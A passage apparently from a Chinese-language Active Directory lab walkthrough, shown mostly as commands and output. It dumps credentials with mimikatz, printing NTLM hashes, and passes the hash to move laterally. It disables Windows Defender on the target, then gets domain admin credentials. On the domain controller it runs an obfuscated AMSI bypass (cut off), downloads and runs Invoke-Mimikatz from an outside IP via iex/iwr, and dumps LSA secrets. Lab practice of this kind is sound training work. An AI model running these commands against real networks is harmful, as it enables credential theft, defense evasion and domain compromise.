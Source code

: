   .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 65288 (00000000:0000ff08)
Session           : Service from 0
User Name         : ciadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:27 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1109
        msv :
         [00000003] Primary
         * Username : ciadmin
         * Domain   : dcorp
         * NTLM     : e08253add90dccf1a208523d02998c3d
         * SHA1     : f668208e94aec0980d3fd18044e3e64908fe9b03
         * DPAPI    : 9892675d75e91baace876950ee2fe5e8
```

收集到ciadmin的NTML
```
ciadmin:e08253add90dccf1a208523d02998c3d
```

开一个ciadmin权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:ciadmin /domain:dollarcorp.moneycorp.local /ntlm:e08253add90dccf1a208523d02998c3d /run:powershell.exe"'
```

因为ciadmin可以横向到dcorp-mgmt，也就是上面userhunter里DA管理员登陆过的机器。这台机器里存储了DA管理员的登录session，我们可以利用它导出NTML，从而提升域管理员权限

```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

收集到的哈希信息
```
DCORP-MGMT$ : 639c1adde3e0d1ba0d733c7d0d8f23ec
mgmtadmin :  95e2cd7ff77379e34c6e46265e75d754
svcadmin : b38ff50264b74508085d82c69794a4d8
```
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
